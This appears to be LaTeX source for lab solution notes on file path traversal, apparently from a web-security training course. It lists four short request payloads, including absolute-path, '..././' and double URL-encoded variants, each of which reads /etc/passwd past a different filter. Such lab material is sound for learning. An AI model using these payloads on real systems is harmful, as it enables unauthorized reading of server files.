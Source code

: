 \documentclass[
  letterpaper,
]{article}
\begin{document}
\subsection{Labs}\label{labs-10}

\subsubsection{1. File path traversal, traversal sequences blocked with
absolute path
bypass}\label{1-file-path-traversal-traversal-sequences-blocked-with-absolute-path-bypass}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/image?filename=/etc/passwd
\end{Verbatim}

\subsubsection{2. File path traversal, traversal sequences stripped
non-recursively}\label{2-file-path-traversal-traversal-sequences-stripped-non-recursively}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/image?filename=..././..././..././etc/passwd
\end{Verbatim}

\subsubsection{3. File path traversal, traversal sequences stripped with
superfluous
URL-decode}\label{3-file-path-traversal-traversal-sequences-stripped-with-superfluous-url-decode}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Double URL-encode ../../../etc/passwd
(e.g. %252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd)
It is recommended to use cyberchef to encode
\end{Verbatim}

\subsubsection{4. File path traversal, validation of start of
path}\label{4-file-path-traversal-validation-of-start-of-path}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
/image?filename=/var/www/images/../../../../etc/passwd
\end{Verbatim}
\end{document}
